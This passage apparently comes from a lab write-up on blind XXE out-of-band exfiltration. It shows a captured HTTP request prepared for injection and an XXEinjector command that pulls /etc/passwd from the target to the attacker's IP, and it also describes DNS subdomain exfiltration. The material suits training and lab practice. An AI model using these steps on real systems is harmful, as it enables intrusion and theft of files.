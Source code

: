 &#x20;The file content will be there in the attack machine terminal

**Tip**: In addition to storing our base64 encoded data as a parameter to our URL, we may utilize DNS OOB Exfiltration by placing the encoded data as a sub-domain for our URL (e.g. ENCODEDTEXT.our.website.com), and then use a tool like tcpdump to capture any incoming traffic and decode the sub-domain string to get the data. Granted, this method is more advanced and requires more effort to exfiltrate data through.

### Automated OOB Exfiltration

Copy the request from burp suite and add XXEINJECT after it and save it in a file

```html
POST /blind/submitDetails.php HTTP/1.1
Host: 10.129.201.94
Content-Length: 169
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: http://10.129.201.94
Referer: http://10.129.201.94/blind/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

<?xml version="1.0" encoding="UTF-8"?>
XXEINJECT
```

Then run:

```bash
ruby XXEinjector.rb --host=[tun0 IP] --httpport=8000 --file=/tmp/xxe.req --path=/etc/passwd --oob=http --phpfilter
```
